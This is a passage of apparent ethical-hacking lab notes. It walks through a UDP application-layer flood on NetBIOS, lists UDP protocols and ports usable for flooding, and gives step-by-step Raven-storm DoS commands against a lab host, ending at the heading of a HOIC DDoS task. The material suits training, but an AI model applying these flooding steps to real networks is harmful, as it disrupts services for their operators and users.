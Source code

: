 	[Win server 2019]
	observe wireshark traffic

	[parrot]
	ctrl +c

Note: Here, we have used NetBIOS port 139 to perform a UDP application layer flood attack. Similarly, you can employ other application layer protocols to perform a UDP application layer flood attack on a target network.

Note: Some of the UDP based application layer protocols that attackers can employ to flood target networks include:

Note: - CharGEN (Port 19)

	SNMPv2 (Port 161)
	QOTD (Port 17)
	RPC (Port 135)
	SSDP (Port 1900)
	CLDAP (Port 389)
	TFTP (Port 69)
	NetBIOS (Port 137,138,139)
	NTP (Port 123)
	Quake Network Protocol (Port 26000)
	VoIP (Port 5060)
------------------------------------------------------------------------
## Task 3: Perform a DoS Attack using Raven-storm

	[parrot]
	sudo su
	sudo rst
	Type l4 and press Enter to load layer4 module (UDP/TCP).

	[Win 19]
	wireshark

	[parrot]
	ip 10.10.1.19 -> specify target ip
	port 80
	threads 20000
	run
	Y -> Do you agree to the terms of use (Y/N)
	
	DDOS attack will start
	[Win server 2019]
	monitor wireshark
	[parrot]
	CTRL +z -> to stop DDoS attack.

------------------------------------------------------------------------
## Task 4: Perform a DDoS Attack using HOIC
Note: In this task, we will use the Windows 11, Windows Server 2019 and Windows Server 2022 machines to launch a DDoS attack on the Parrot Security machine.

